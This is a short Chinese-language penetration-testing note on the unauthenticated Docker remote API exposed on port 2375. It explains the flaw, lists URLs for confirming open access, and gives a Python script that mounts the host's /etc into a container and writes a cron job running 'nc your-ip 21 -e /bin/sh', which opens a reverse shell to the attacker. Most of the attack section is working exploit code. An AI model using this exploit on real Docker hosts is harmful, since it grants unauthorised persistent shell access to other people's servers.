

# Docker 2375端口

## 关于

<a-checkbox checked>该未授权访问漏洞是因为 Docker remote api 可执行docker命令，获取信息</a-checkbox></br>

<a-checkbox checked>从官方文档可以看出，该接口是目的是取代docker 命令界面，通过url操作docker。</a-checkbox></br>

<a-checkbox checked>而Docker swarm是docker下的分布化应用的本地集群，在开放2375监听集群容器时，就会调用这个api</a-checkbox></br>

## 攻击方法

访问目标，验证未授权API调用

```bash
http://xxx.xxx.xxx.xxx:2375/version
http://xxx.xxx.xxx.xxx:2375/containers/json
```


<a-checkbox checked>使用 Python脚本调用API 反弹Shell</a-checkbox></br>

```bash
import docker

client = docker.DockerClient(base_url='http://Remote-IP:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

